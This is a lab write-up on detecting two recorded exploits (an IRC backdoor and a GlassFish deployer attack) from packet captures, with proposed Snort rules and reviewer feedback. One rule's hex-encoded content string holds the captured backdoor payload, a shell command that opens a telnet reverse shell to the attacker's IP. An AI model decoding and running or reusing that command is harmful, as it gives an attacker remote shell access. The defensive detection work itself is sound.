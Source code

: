# Network Exploit Analysis and Snort Rule Development

This project involves analyzing network traffic from two recorded exploits using Wireshark and developing Snort IDS rules to detect these attacks while minimizing false positives. 
The packet captures contain traffic from a network administrator who isolated known exploit attempts. 
The project includes two main analyses: an IRC Backdoor Exploit and a GlassFish Deployer Exploit.

IRC Backdoor Exploit Analysis:
File: irc_backdoor_exploit.pcapng

Attacker IP: 10.1.1.3<p>
Victim IP: 10.2.2.4
Victim Port: 6697
Number of Attack Attempts: 2
Attack Payload Packets: [4, 11]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.4 6697 (msg:"IRC Backdoor Exploit Attempt"; content:"41423b7368202d63202728736c65657020343631307c74656c6e65742031302e312e312e3320343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e65742031302e312e312e332034343434203e2f6465762f6e756c6c20323e2631202629270a"; sid:1000001; rev:1;)

Feedback from Network Administrator: The command should look for a specific string pattern ("AB;") in the payload.

False Positives: The rule is specific to the payload content; however, it may still trigger false positives if the same payload pattern appears in legitimate traffic. 
Careful tuning and adding more context checks, such as specific sequences or additional packet attributes, may be required to reduce false positives.


GlassFish Deployer Exploit Analysis:
File: glassfish_deployer_exploit.pcapng

Attacker IP: 10.1.1.3
Victim IP: 10.2.2.3
Victim Port: 4848
Number of Attack Attempts: 3
Attack Payload Packets: [38, 85, 132]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.3 4848 (msg:"GlassFish Deployer Exploit Attempt"; content:"3c7469746c653e4465706c6f7920456e7465727072697365204170706c69636174696f6e732f4d6f64756c65733c2f7469746c653e0a6f732e6e616d65203d204c696e75780a6f732e61726368203d20783836"; sid:1000002; rev:1;)

Feedback from Network Admin: The rule should specifically look for "post" or "upload" and ".war".

Attack Identification: The payload content indicates the deployment of a malicious application/module to the GlassFish server, likely exploiting a vulnerability in the deployment functionality. 
This attack pattern aligns with exploits targeting the GlassFish server's deployment service, specifically CVE-2011-0807.

False Positives: Similar to the IRC Backdoor rule, this Snort rule is based on specific payload content. 
Legitimate deployments or configurations with similar payload patterns may trigger false positives. Adding more context to the rule, such as checking for additional malicious indicators or behaviors, can help minimize false positives.

Learning and Improvement:

During this project, valuable feedback from a network administrator significantly enhanced my understanding and skills in creating Snort IDS rules. Here are some key takeaways:

Specific Pattern Matching: Initially, my Snort rules were too general, which could lead to a high rate of false positives. The feedback emphasized the importance of looking for specific string patterns within the payload, such as "AB;" in the IRC Backdoor Exploit. This helped me refine the rule to be more precise.
Understanding Context: The suggestion to include checks for specific actions like "post," "upload," and ".war" in the GlassFish Deployer Exploit was crucial. This feedback taught me that understanding the context of the attack and incorporating it into the rule can greatly improve detection accuracy while reducing false positives.
Continuous Learning: The feedback loop highlighted the importance of continuous learning and adaptation. It reminded me that in the field of cybersecurity, especially when working with tools like Snort, it's essential to keep refining rules based on observed behavior and expert insights.
This feedback has not only improved the quality of the Snort rules I developed but also deepened my understanding of network security practices.


Resources used: 

https://lwn.net/Articles/392201/

https://nvd.nist.gov/vuln/detail/CVE-2011-0807
